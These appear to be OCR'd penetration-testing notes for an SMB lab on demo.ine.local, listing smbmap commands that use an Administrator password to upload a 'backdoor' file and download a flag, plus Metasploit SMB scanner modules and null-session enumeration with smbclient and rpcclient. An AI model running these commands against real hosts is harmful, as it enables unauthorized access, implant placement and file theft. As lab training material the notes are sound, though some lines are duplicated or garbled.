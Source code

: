 ```Shell
smbmap -H demo.ine.local -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor'
```

```Shell
smbmap -H demo.ine.local -u Administrator -p 'smbserver_771' -r 'C$'
```

```Shell
smbmap -H demo.ine.local -u Administrator -p 'smbserver_771' --download 'C$\flag.txt'
```

```msfconsole
/auxiliary/scanner/smb/smb_version
```

> This MSF Module can be used to scan the SAMBA or SMB version of a machine

```msfconsole
/auxiliary/scanner/smb/smb_version
```

> This module is used to check whether it supports SMB2 or not.

```msfconsole
/auxiliary/scanner/smb/smb_enumshares
```

> It can used to enumerate shares.

```msfconsole
/auxiliary/scanner/smb/pipe_auditor
```

> This is used to enumerate name pipes or the communications pipes. 

```Shell
nmblookup -A <ip-address>
```

> This can be used to look up SMB connections and Groups.

```shell
smbclient -L <ip-address> -N
```

> Now SMB Client can be used to connect to those sessions and the `-N` Flag looks for the Null sessions.

```Shell
smbclient //<>ip-address>/<user> -N
```

> This allows us to connect to a particular user without any password.

```Shell
rpcclient -U "" -N <ip-address>
```

> RPC Client is used to connect to a server and in this command it is connected with a null user and no password.

`srvinfo`: This rpc command is used to find the server info.
`enumdomusers`: This rpc commands is used to find users in the server.
`lookupnames <keyword>`: It is used to look for a specific username.
`enumdomgroups`: It is used list down all the groups.
